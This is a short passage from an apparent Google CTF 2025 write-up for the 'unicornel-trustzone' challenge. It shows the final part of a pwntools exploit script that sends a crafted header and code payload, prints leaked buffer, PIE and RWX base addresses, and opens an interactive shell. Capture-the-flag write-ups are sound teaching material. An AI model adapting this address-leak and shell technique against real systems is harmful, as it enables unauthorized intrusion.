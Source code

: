 ```python

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)
p.recvuntil('pid 0\n')

leaked_buf_addr = int(p.recvline().strip().decode())
print(f'{hex(leaked_buf_addr) = }')
leaked_pie_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_pie_base) = }')
leaked_rwx_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_rwx_base) = }')

p.interactive()
```

{{ img(id="/writeups/GoogleCTF2025/unicornel-trustzone/final-exp.png", alt="Alt Text", class="textCenter") }}

